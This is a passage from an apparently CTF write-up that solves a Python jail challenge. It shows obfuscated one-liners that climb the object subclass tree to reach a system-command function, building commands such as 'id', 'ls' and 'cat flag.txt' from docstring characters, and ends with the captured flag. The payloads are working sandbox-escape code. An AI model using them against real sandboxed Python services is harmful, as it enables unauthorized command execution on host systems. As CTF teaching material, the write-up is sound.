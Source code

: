 ```
# id
x=().__doc__;print(().__class__.__base__.__subclasses__()[132].__init__.__globals__.get(x[84]+x[34]+x[84]+x[26]+x[24])(x[9]+x[118]).read())

# ls
x=().__doc__;print(().__class__.__base__.__subclasses__()[132].__init__.__globals__.get(x[84]+x[34]+x[84]+x[26]+x[24])(x[3]+x[19]).read())

```

![](/img/2021_04_24_htb_cyberapocalypse_ctf_writeup/20210424080519.png#center)

We can see the flag there, we can convert the command "cat flag.txt" like we did for previous commands to read the flag. But the help string we got from first class did not contain the letter "x", so I had to check other classes that were available and their help string if they contained the letter "x". Got it from a class that was present on 10th index. 

```
().__class__.__base__.__subclasses__()[10].__doc__[19]
```

Note, this may not work on your local python3 because of the index mismatch.

Now the final payload:

```
x=().__doc__;print(().__class__.__base__.__subclasses__()[132].__init__.__globals__.get(x[84]+x[34]+x[84]+x[26]+x[24])(x[25]+x[14]+x[13]+x[18]+x[31]+x[3]+x[14]+x[38]+x[27]+x[13]+().__class__.__base__.__subclasses__()[10].__doc__[19]+x[13]).read())
```

![](/img/2021_04_24_htb_cyberapocalypse_ctf_writeup/20210424080813.png#center)

```
CHTB{n0_j4il_c4n_h4ndl3_m3!}
```

&nbsp;
# # Hardware


## # Compromised
